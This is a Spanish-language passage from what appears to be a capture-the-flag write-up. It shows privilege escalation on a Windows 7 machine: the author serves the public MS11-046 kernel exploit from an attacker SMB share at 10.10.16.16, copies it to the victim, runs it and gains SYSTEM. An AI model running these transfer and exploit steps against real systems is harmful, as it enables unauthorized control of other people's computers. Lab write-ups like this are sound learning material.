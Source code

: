 La versión del sistema operativo `OS Version: 6.1.7600 N/A Build 7600` es `vulnerable` al parecer, he estado investigando y he encontrado este exploit [https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe). Para `transferirlo` a la máquina víctima nos montar un `servidor SMB` en el `mismo directorio` del `exploit`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos `descargamos` el `binario` en la máquina víctima

```
C:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\ms11-046.exe 
copy \\10.10.16.16\smbFolder\ms11-046.exe 
        1 file(s) copied.
```

`Ejecutamos` el `exploit` y nos convertimos en `nt authority\system`

```
C:\Windows\Temp\privesc>copy \\10.10.16.16\smbFolder\ms11-046.exe 
copy \\10.10.16.16\smbFolder\ms11-046.exe 
        1 file(s) copied.

C:\Windows\Temp\privesc>ms11-046.exe 
ms11-046.exe 

c:\Windows\System32>whoami
whoami
nt authority\system
```

